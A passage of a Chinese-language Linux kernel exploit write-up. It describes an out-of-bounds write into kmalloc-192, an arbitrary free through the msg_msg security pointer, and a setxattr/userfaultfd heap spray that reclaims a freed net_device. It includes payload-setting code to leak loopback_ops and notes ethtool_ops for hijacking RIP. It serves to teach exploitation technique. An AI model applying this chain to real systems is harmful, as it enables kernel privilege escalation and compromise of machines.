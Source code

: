 这次使用的是带两个rule 的`flow_rule` 结构，大小为0xC0，正好属于kmalloc-192，如果越界写6次，会在越界0x18+0x50*5的地方写一个`* dev`指针，正好是下面第三个kmalloc-192 的偏移0x28 的地方，如果是`msg_msg` 结构体的话，就是`security`指针，这时如果使用`msgrcv` 函数释放这个`msg_msg` 结构体，他就会调用`kfree`，释放`security`指针指向的内容，这也是`msg_msg->security `的任意地址释放源语，相关代码如下：

```c
static long do_msgrcv(int msqid, void __user *buf, size_t bufsz, long msgtyp, int msgflg,
	       long (*msg_handler)(void __user *, struct msg_msg *, size_t))
{		
    ··· ···
    ··· ···
	free_msg(msg); 			
	··· ···
}

void free_msg(struct msg_msg *msg)
{
	··· ···
	security_msg_msg_free(msg);
	··· ···
}

void security_msg_msg_free(struct msg_msg *msg)
{
	call_void_hook(msg_msg_free_security, msg);
	kfree(msg->security);
	msg->security = NULL;
}
```

这样，对刚刚堆喷的消息进行接收操作，就会将我们覆盖`security` 的`dev` 指针释放掉，也就是释放掉`net_device` 结构体。接下来使用`setxattr`+userfaulted来尝试对该堆块进行篡改，完成UAF。`setxattr` 可以申请任意大小的内核堆，并写入任意内容，然后释放。内核漏洞利用的常见手段。

由于现在kernel中 free状态的kmalloc-192 有很多，只是用一次`setxattr`肯定是不够的，所以采用多线程同时调用`setxattr`，并且利用userfaulted 增加调用时间，增加堆块占用时间，争取申请更多内核堆，进而申请到刚释放的`net_device` 结构体。申请到就可以修改`net_device`结构体的内容了，修改里面的`dev_addr` 指针为`netdev_ops` 指针，因为`netdev_ops` 会初始化为`loopback_ops`，然后改一些名字之类的用来判断是否修改成功：

```c
    ((uint64_t*)(setxattr_bufs[i]))[2] = 0x6f6c; // dev->name = "lo"
    ((uint64_t*)(setxattr_bufs[i]))[104] = child_net_device_leak + 0xc8; // set dev_addr ptr
    ((uint64_t*)(setxattr_bufs[i]))[78] = 0x0808080800000000; // set addr_len to '0x08'
    ((uint64_t*)(setxattr_bufs[i]))[28] = 0x42424242; // ifindex
```

接下来只要调用`socket` 的`ioctl` 的`SIOCGIFHWADDR` 功能 读取物理地址，就可以读取到`loopback_ops` 的地址完成泄露。`net_device` 一些有用的成员如下：

```c
struct net_device {
	char			name[IFNAMSIZ]; //修改name判断是否改正确
	··· ···
	const struct net_device_ops *netdev_ops;//初始化为，用于泄露内核地址
	int			ifindex;   
	·· ···
	const struct  ethtool_ops *ethtool_ops; //用于劫持rip
	··· ···
	unsigned char		addr_len; //用于读取地址长度
	··· ···
	unsigned char		*dev_addr; //篡改用于泄露地址，被SIOCGIFHWADDR 读取
};
```
